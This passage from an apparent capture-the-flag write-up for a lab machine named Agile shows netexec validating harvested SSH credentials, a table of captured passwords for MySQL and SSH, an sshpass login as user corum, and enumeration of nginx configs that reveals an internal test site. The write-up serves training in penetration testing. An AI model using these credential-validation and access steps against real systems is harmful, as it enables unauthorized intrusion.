 ```bash
$ netexec ssh $TARGET -u corum -p 5db7caa1d13cc37c9fc2             
SSH         10.10.11.203    22     10.10.11.203     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.203    22     10.10.11.203     [+] corum:5db7caa1d13cc37c9fc2  (non root) Linux - Shell access!
```

| Username | Password | Target |
| -- | -- | -- |
| superpassuser | dSA6l7q*yIVs$39Ml6ywvgK | Mysql |
| corum | 5db7caa1d13cc37c9fc2 | ssh |

```bash
$ sshpass -p '5db7caa1d13cc37c9fc2' ssh corum@$TARGET
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)
...
corum@agile:~$ id
uid=1000(corum) gid=1000(corum) groups=1000(corum)
```

```bash
corum@agile:~$ ls -lha  /etc/nginx/sites-enabled/
total 8.0K
drwxr-xr-x 2 root root 4.0K Jan 25  2023 .
drwxr-xr-x 8 root root 4.0K Feb  8  2023 ..
lrwxrwxrwx 1 root root   42 Jan 25  2023 agile.htb.nginx -> /etc/nginx/sites-available/agile.htb.nginx
lrwxrwxrwx 1 root root   41 Jan 25  2023 redirect.nginx -> /etc/nginx/sites-available/redirect.nginx
lrwxrwxrwx 1 root root   47 Jan 25  2023 superpass-test.nginx -> /etc/nginx/sites-available/superpass-test.nginx
lrwxrwxrwx 1 root root   42 Jan 25  2023 superpass.nginx -> /etc/nginx/sites-available/superpass.nginx
```

Nginx seems to be listing port 80 on localhost for `test.superpass.htb` redirecting to 5555.

```bash
corum@agile:~$ cat /etc/nginx/sites-available/superpass-test.nginx
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass http://127.0.0.1:5555;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```
